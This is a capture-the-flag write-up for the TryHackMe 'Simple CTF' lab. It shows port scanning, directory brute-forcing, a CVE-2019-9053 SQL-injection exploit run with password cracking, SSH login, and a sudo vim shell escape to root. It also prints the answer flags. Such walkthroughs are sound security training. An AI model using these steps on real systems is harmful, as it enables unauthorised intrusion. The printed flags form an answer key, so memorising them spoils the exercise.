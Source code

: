 ```yaml
---
description: https://tryhackme.com/room/easyctf
---
```


# Simple CTF

## INIT

```
export easyctf=10.10.150.200
ping $easyctf

echo "10.10.150.200 easyctf.thm" >> /etc/hosts
```

## How many services are running under port 1000?

```
nmap -T5 -p1-1000 easyctf.thm
```

![](<../.gitbook/assets/image (415).png>)

{% hint style="success" %}
2
{% endhint %}

## What is running on the higher port?

```
nmap -sC -sV -T5 -p1-65535 easyctf.thm
```

![](<../.gitbook/assets/image (416).png>)

{% hint style="success" %}
ssh
{% endhint %}

## FTP

![](<../.gitbook/assets/image (418).png>)

## HTTP

![](<../.gitbook/assets/image (419).png>)

## GOBUSTER

```
gobuster dir -u easyctf.thm -w /usr/share/wordlists/dirb/common.txt -q -t 15 -x php,html,txt
```

![](<../.gitbook/assets/image (420).png>)

![](<../.gitbook/assets/image (421).png>)

> CMS Made Simple 2.2.8

## What's the CVE you're using against the application?

![](<../.gitbook/assets/image (422).png>)

![](<../.gitbook/assets/image (423).png>)

{% hint style="success" %}
CVE-2019-9053
{% endhint %}

## To what kind of vulnerability is the application vulnerable?

![](<../.gitbook/assets/image (424).png>)

{% hint style="success" %}
sqli
{% endhint %}

## What's the password?

```
python3 easyctf.py -u http://easyctf.thm/simple --crack -wordlist /usr/share/wordlists/rockyou.txt
```

![](<../.gitbook/assets/image (429).png>)

{% hint style="success" %}
secret
{% endhint %}

## Where can you login with the details obtained?

![](<../.gitbook/assets/image (426).png>)

{% hint style="success" %}
ssh
{% endhint %}

## What's the user flag?

![](<../.gitbook/assets/image (427).png>)

{% hint style="success" %}
G00d j0b, keep up!
{% endhint %}

## Is there any other user in the home directory? What's its name?

![](<../.gitbook/assets/image (428).png>)

{% hint style="success" %}
sunbath
{% endhint %}

## What can you leverage to spawn a privileged shell?

```
sudo vim -c ':!/bin/sh'
```

{% embed url="https://gtfobins.github.io/gtfobins/vim/" %}

{% hint style="success" %}
vim
{% endhint %}

## What's the root flag?

```
cat /root/root.txt
```

{% hint style="success" %}
W3ll d0n3. You made it!
{% endhint %}
